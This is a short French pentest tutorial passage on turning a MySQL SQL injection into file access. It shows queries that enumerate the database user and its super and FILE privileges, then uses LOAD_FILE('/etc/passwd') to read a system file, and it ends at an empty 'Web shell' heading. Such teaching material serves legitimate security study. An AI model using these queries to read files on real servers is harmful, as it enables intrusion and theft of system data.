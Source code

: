 # Autres

Une injection SQL peut également être exploitée pour la lecture et l'écriture de fichiers et même l'exécution de code à distance sur le serveur principal.

# Reading Files

Tout d'abord, nous devons déterminer quel utilisateur nous sommes dans la base de données.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Maintenant que nous connaissons notre utilisateur, nous pouvons commencer à déterminer ses privilèges.

Vérifier si nous disposons des privilèges de super-administrateur:

```sql
SELECT super_priv FROM mysql.user
SELECT super_priv FROM mysql.user WHERE user="<myusername>
```

- La requête renvoie `Y (Yes)` ou `N (No)` indiquant les privilèges de l'utilisateur

Affichage de nos privilèges utilisateur actuels

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges
```

> Notez que le privilège `FILE` est attribué à l'utilisateur, ce qui lui permet de lire des fichiers et potentiellement d'y écrire.

Maintenant que nous disposons des privilèges nécessaires pour lire les fichiers système locaux, on peut lire des données depuis des fichiers.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

`nous ne pourrons lire le fichier que si l’utilisateur du système d’exploitation exécutant MySQL dispose de privilèges suffisants pour le lire.`


# Writing Files

**Web shell**
